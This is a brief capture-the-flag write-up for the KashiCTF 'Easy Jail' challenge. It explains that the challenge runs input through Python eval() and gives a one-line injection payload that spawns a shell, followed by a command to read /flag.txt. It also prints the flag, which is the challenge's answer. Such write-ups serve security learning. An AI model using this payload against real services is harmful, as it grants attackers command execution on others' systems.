

# Easy Jail (100 pts)

Analyze the code, you will see that it run `eval()` directly, so I just need to `__import__('os').system('sh')` then `cat /flag.txt`

`Flag: KashiCTF{3V4L_41NT_54F3_SRZnf6S7}`
